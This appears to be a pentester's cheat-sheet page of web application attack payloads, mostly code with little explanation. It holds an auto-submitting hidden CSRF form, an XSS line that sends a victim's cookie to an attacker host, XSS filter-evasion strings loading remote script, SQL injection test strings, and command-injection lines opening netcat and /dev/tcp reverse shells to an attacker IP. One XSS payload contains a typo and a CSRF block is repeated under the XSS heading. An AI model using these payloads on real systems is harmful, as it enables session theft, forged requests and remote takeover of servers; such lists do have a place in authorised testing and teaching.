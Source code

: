 ```yaml
---
title: Vulnerabilities
category: Web Application
order: 2
---
```


> **CSRF**

GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **XSS**

Get Cookie:
{% highlight html %}
<script>document.location='http://[AttackerIP]/cgi-bin/grab.cgi?'+docment.cookie;</script>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">
<input type="hidden" name="<paramater>" value="<value>"/>
<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"
       tabindex="-1"/>
</form>
<script>document.getElementById('CSRF').submit();</script>
{% endhighlight %}

> **SQL Injection Test Strings**

{% highlight bash %}
' ` " ; /* --
{% endhighlight %}

> **XSS Test Strings**

{% highlight html %}
'';!--"<XSS>=&{()}

<script>alert(document.cookie);</script>

<script type="text/vbscript">alert(DOCUMENT.COOKIE)</script>

<script src=http://www.example.com/malicious-code.js></script>

%3cscript src=http://www.example.com/malicious-code.js%3e%3c/script%3e

\x3cscript src=http://www.example.com/malicious-code.js\x3e\x3c/script\x3e

>"><script>alert("XSS")</script>&

"><STYLE>@import"javascript:alert('XSS')";</STYLE>

>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;
 alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)>

>%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>
'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'
">
>"

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert('XSS')>

<IMG SRC=JaVaScRiPt:alert('XSS')> 

<IMG SRC=JaVaScRiPt:alert(&quot;XSS<WBR>&quot;)>

<IMGSRC=&#106;&#97;&#118;&#97;&<WBR>#115;&#99;&#114;&#105;&#112;&<WBR>#116;&#58;&#97;
 &#108;&#101;&<WBR>#114;&#116;&#40;&#39;&#88;&#83<WBR>;&#83;&#39;&#41>

<IMGSRC=&#0000106&#0000097&<WBR>#0000118&#0000097&#0000115&<WBR>#0000099&#0000114&#0000105&<WBR>#0000112&#0000116&#0000058
 &<WBR>#0000097&#0000108&#0000101&<WBR>#0000114&#0000116&#0000040&<WBR>#0000039&#0000088&#0000083&<WBR>#0000083&#0000039&#0000041>
           
<IMGSRC=&#x6A&#x61&#x76&#x61&#x73&<WBR>#x63&#x72&#x69&#x70&#x74&#x3A&<WBR>#x61&#x6C&#x65&#x72&#x74&#x28
 &<WBR>#x27&#x58&#x53&#x53&#x27&#x29>

<IMG SRC="jav&#x09;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0A;ascript:alert(<WBR>'XSS');">

<IMG SRC="jav&#x0D;ascript:alert(<WBR>'XSS');">

{% endhighlight %}

> **Blind Command Injection**

{% highlight bash %}
#Attacker Machine
tcpdump -n host <webserver IP> and ICMP
nc -l [port]
#Victim
test; ping -c 4 <yourAttackerIP>; echo hello 
test; /bin/nc [YourAttackerIP] [port] -e /bin/bash; echo hello
#Alternative to NC for non-debian based distrobutions
/bin/bash -i > /dev/tcp/[AttackerIP]/[attackerport] 0<&1 2>&1 
{% endhighlight %}

> **Useful Resources**

* [XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [XSS Examples](http://www.xssed.com/)
* [SQLMap](http://http/sqlmap.org)
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
